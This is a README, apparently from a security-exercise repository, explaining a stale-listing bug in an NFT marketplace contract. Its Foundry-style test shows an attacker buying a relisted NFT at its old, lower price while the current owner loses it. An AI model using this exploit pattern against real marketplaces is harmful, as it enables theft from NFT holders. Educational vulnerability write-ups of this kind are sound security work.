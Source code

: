 # NFT marketplace exploit

Smart contract exploit on a large nft marketplace [tutorial](https://www.youtube.com/watch?v=GKJBEEXUha0&t)

## Exploit

An nft can be bought with the information of its previous listings by calling ```createMarketSale``` with older data and 

A hacker can buy any NFT listed with an older listing data by calling ```createMarketSale``` on a previous listing id.
For example, if an NFT is currently listed at 10 ether and it was listed at a 1 ether, a hacker can get buy it for 1 ether.

The 1 ether is transfered to the old lister instead of the current one.

    // Start seller has 1 NFT - 10 ether
    //       buyer has 10 ether
    //       hacker has 10 ether
    
    // Minter-Seller lists its nft for 1 ether
    vm.prank(seller);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 1 ether);


    // buyer buys the nft for 1 ether & lists it for 10 ether
    
    vm.startPrank(buyer);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    nft.approve(address(marketplace), 1);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 10 ether);
    vm.stopPrank();


    // hacker is able to buy the nft for 1 eth using the old listing data.
    // Buyer loses its nft
    
    vm.startPrank(hacker);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    
    assertEq(seller.balance, 12 ether);
    assertEq(buyer.balance, 9 ether);
    assertEq(hacker.balance, 9 ether);
    assertEq(nft.balanceOf(hacker), 1);

    // End (hacked) seller has 12 ether
    //              buyer has 9 ether
    //              hacker has 9 ether & 1 NFT


    // Expected    seller has 11 ether
    //              buyer has 19 ether
    //              NotHacker has 0 ether & 1 NFT

### Disclaimer
*The purpose of this repository is a simple security exercise & do not encourage to hack smart contracts in the real world.*
